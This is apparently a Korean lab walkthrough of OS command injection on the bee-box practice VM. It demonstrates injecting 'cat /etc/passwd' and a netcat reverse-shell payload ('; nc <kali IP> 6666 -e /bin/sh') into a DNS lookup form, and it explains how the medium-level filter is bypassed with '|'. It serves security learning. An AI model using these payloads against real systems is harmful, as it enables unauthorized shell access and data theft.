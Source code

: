## OS Command Injection

![chrome_kwMsmrvtf8](https://user-images.githubusercontent.com/79683414/133914877-de34a754-78b9-4a71-a1d6-3853a07dbceb.png)

시스템 명령어를 주입해서 서버에 접근하는 공격이다. 시스템 명령어를 웹 어플리케이션에서 실행 할 수 있을 때 발생한다.

아래와 같이 `nslookup`과 같은 시스템 명령이 이용될 것이라 추측되는 Input에 CLI 의 다중명령어 기능을 활용하면 추가적인 명령어를 삽입할 수 있다.

> __다중명령어__
>
> - 세미콜론(;) : 하나의 명령어 라인에서 여러 명령어를 실행. 실패와 관계 없이 전부 실행
>
> - 엠퍼센트(&) : 앞에서 부터 순차적으로 실행하되, 실패할 경우 뒤 명령은 수행하지 않음.
>
> - 파이프라인(|): 앞에 나온 명령 결과를 두 번째 명령에서 사용.
>
>   ex)
>
>    ls -l ; cd /var/www/html
>
>   dpkg -l | grep python



## Dns lookup

Dns lookup 은 Dns 주소를 IP로 변환 해주는 기능이다. `www.naver.com` 을 입력했을 때, 네이버의 실제 공인 IP 주소가 출력된다.

![vmware_RIbLqdwE1L](https://user-images.githubusercontent.com/79683414/133915239-cfd47faa-d0b5-4e5b-9bc8-699e203b80dd.png)

<br/>

<br/>

### low

'bee-box : OS Command Injection' 에서는 Dns lookup 기능이 구현되어 있다. `nslookup`과 같은 OS Command로 구현되는 것 같은데, 몇 가지 명령어를 테스트 해보자. 우선 정보 수집을 위한 간단한 명령어를 테스트해보자.

whoami, hostname, cat /etc/passwd, cat /etc/issue 등

![chrome_MSsvmX1b2H](https://user-images.githubusercontent.com/79683414/133948251-b7763cd2-0bff-4900-bb67-8bebc05d8a71.png)

<br/>

<br/>

<br/>

OS Command Injection 을 막기 위한 보안 기능이 없는 듯 하다. `cat /etc/passwd` 로 사용자 목록을 출력해보자. 위에서 출력된 www-data의 사용자 정보를 확인 할 수 있다.

![chrome_fOnrQaWRiY](https://user-images.githubusercontent.com/79683414/133948435-d193fb34-21fd-454f-904e-cfeef365cb51.png)

<br/>

<br/>

<br/>

이 취약점이 발견되면 "리버스 쉘"을 이용하여 간단히 쉘을 획득 할 수 있다는 점이 재밌었다. 쉘을 획득하는 방법은 바인드/리버스 쉘 두 가지 방법이 있는데, 리버스를 이용하는 것이 일반적이다.

리버스 쉘을 이용하는 이유는 방화벽 때문인데, 방화벽은 들어오는 패킷에 대해서는 제한적이고 나가는 패킷에 대해서는 느슨하기 때문이다. 마치 실생활에서 사용되는 도어락 처럼, 도어락은 집에 들어오기 위해 비밀번호를 입력하여 인증하는 절차를 거치지만 집에서 나갈 때 별도로 인증 절차를 수행하지 않는다.

> - Bind shell : 피해자 쪽 서버 포트가 열렸을 때 공격자가 대상 포트에 접속함.
> - Reverse shell : 공격자 쪽 서버 포트를 열어놓고 피해자가 접속.

<br/>

<br/>

<br/>리버스 쉘을 이용하여 웹쉘을 획득해보자.

<br/>

<br/>

<br/>

우선 공격자(kali)에서 `nc -nlvp 6666` 으로 포트를 listening 상태로 열어둔다. 포트는 사용하지 않는 임의의 포트를 입력한다.

![vmware_lmjG6sKjOI](https://user-images.githubusercontent.com/79683414/133949853-6cc9e333-7c37-4806-a2d7-5091dfabee96.png)

<br/>

<br/>

<br/>

위에서 발견한 OS Command Injection 을 사용하여 Bee-box 에서 Kali 로 nc 명령을 날린다. `-e` 옵션은 연결된 후 해당 프로그램을 실행한다는 의미이다. 

`; nc <kali IP address> 6666 -e /bin/sh`

![chrome_IWimdFKx8Z](https://user-images.githubusercontent.com/79683414/133950018-6c14a827-f68a-499b-9f89-17669c9b90ef.png)

<br/>

<br/>

<br/>

Bee-box 에서 `Lookup` 버튼을 누르면 Kali(공격자)의 화면에 connect 되었다고 출력된다.

앞에서 실행 한 Command Injection 명령어를 통해 쉘이 정상적으로 획득되었는지 확인해보자.

![vmware_XOif4ug8NM](https://user-images.githubusercontent.com/79683414/133950251-d5275ec0-af32-4217-9f85-9c5d28a3beea.png)



Bee-box(희생자)의 쉘을 획득했다. 쉘을 획득하면 정보 수집은 물론, 권한 상승 공격으로 Root 권한을 획득 할 수 있다.

## medium/high

![nEFT3XuK6p](https://user-images.githubusercontent.com/79683414/133951089-035c5b8e-257f-49ba-bd5e-cee432e16835.png)

`commandi.php`를 확인해 보면 medium과 high 단계에는 각각 필터링이 적용되어 있는데

`commandi_check_1`과 `commandi_check_2` 이다.

<br/>

<br/>

<br/>

![Code_LlCWXF3l3r](https://user-images.githubusercontent.com/79683414/133951161-5da40ddf-0739-42c2-8c5b-8aacb182b288.png)

medium 단계에 적용된 check_1 는 "&" 와 ";"를 필터링 하므로, "|"을 이용해 공격이 가능하다.

high 단계에 적용된 escapeshellcmd() 함수는 쉘 메타문자(" `&#;`|*?~<>^()[]{}$\`, `\x0A`\xFF")에 백슬래쉬 "\\"를 붙여 명령을 실행할 수 없도록 한다.

> __escapeshellcmd()__ : https://www.php.net/manual/en/function.escapeshellcmd.php


